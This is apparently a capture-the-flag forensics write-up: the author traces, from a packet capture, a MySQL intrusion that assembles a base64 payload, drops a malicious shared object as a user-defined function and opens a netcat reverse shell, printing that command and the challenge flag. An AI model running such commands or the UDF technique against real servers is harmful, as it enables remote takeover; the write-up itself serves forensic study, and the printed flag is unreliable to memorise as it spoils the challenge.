# Endpoint

## Scenrio

E Corp's sinister control over society through the chemical compound "EverLast" must be stopped. Analyze the provided network traffic capture file to uncover critical information hidden within the malicious payload. Your task is to extract the key details, including a callback endpoint used in various missions to disseminate EverLast, to help the resistance dismantle the corporation's grip on the world.

## Given artefacts

Merely a packet capture file, Wireshark doo doo doo doo ...

## Solving process

Initial inspection shows that the attacker somehow gets the credentials to access the SQL server:



After gaining access to the server, the attacker checks for existing database, then create a table with junk-like name, before that he tries to remove that name in case it already exists





After that, he begins to insert suspicious chunks of data into that table:



Let's extract all of this with tshark:



Note that I use `awk` to separate the output, use single quote `'` as separator, and the base64-like chunk will be the 2-nd field separated.

Now let cyberchef do its work:



The payload is decoded and it turns out be an ELF, linux executable, performing strings on it reveals a suspicious HTTP connection



We can also inspect it systematically using Ghidra





Decode it with base64 reveals the flag:



## Further anaysis

But let's further analyze the remaining traffic to see what it does:



- GROUP_CONCAT(...): The attacker takes all those individual Base64 chunks of "weird data" they inserted earlier and stitches them back together into one massive string.

- FROM_BASE64(...): This decodes the massive string back into its original binary form.

- INTO DUMPFILE '/usr/lib/mysql/plugin/lvg6H1g.so': This is the most dangerous part. It takes that decoded binary data and writes it directly to the server's disk as a file named lvg6H1g.so.

- The .so extension means it is a Linux Shared Object (similar to a .dll on Windows).

- Placing it in the /usr/lib/mysql/plugin/ directory is highly specific as this is where MySQL looks for custom, user-provided code to extend its functionality.

- The attacker then cleans up any old functions just in case , and then tells MySQL to create a brand new function called do_system.

- SONAME 'lvg6H1g.so' tells MySQL to look inside that malicious file they just dropped on the disk to find the code for do_system. MySQL essentially loads the attacker's custom C/C++ program into its own memory space.

- Now that the do_system function exists, the attacker calls it. This specific malicious function was programmed to execute whatever command is passed to it directly on the underlying Linux operating system, bypassing MySQL entirely.

- `nc 10.10.0.99 8080 -e /bin/bash` : This is a classic netcat reverse shell command. It tells the compromised server to actively connect back to the attacker's machine (10.10.0.99 on port 8080) and instantly execute /bin/bash

`Flag: HTB{chunk5_4nd_udf_f0r_br34kf457}`